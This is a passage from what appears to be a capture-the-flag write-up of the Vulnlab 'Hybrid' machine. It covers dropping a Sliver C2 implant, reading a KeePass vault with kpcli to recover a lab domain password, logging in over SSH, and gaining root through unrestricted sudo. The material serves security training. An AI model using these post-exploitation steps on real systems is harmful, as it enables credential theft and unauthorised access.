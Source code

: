The only problem with having this type of shell is that we can't upgrade our shell in any way at the moment. Any attempt to do so will revert us back to `www-data`. That being said, I'll upload a Sliver C2 implant so we can download and upload files whenever we need to.

# Reading KDBX

In the home directory, we can find the first flag to this chain as well as a `passwords.kdbx` file. We can use `kpcli` to open this file and read its contents.

You'll notice that if you try to show the `domain` entry, it will be blotted it in red. Copying this to any text file will reveal the real contents. An alternative is to use `KeaPassXC` if you're on Windows, though `kpcli` works fine as well.

```
kpcli:/> open passwords.kdbx
kpcli:/> ls
=== Groups ===
eMail/
Internet/
hybrid.vl/

kpcli:/> cd hybrid.vl
kpcli:/> ls

=== Entries ===
0. domain                                                                 
1. mail                                                   mail01.hybrid.vl

kpcli:/> show domain

 Path: /hybrid.vl/
Title: domain
Uname: peter.turner
 Pass: b0cwR+G4Dzl_rw
  URL: 
Notes: 
```

Upon testing these credentials to SSH on the machine, we can see that we have access through SSH as `peter.turner@hybrid.vl`. Slight note, my IP address did change since I took a break in between doing this.

![](/images/vulnlab/hybrid-vl/s.png)

Upon checking for privileges that we can exploit, it seems that this user can run all commands as `sudo`, which is a nice change of pace for once.

```
peter.turner@hybrid.vl@mail01:~$ sudo -l
[sudo] password for peter.turner@hybrid.vl: 
Matching Defaults entries for peter.turner@hybrid.vl on mail01:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User peter.turner@hybrid.vl may run the following commands on mail01:
    (ALL) ALL
peter.turner@hybrid.vl@mail01:~$ sudo su
root@mail01:/home/peter.turner@hybrid.vl# cd /root
root@mail01:~# ls
flag.txt  snap
```

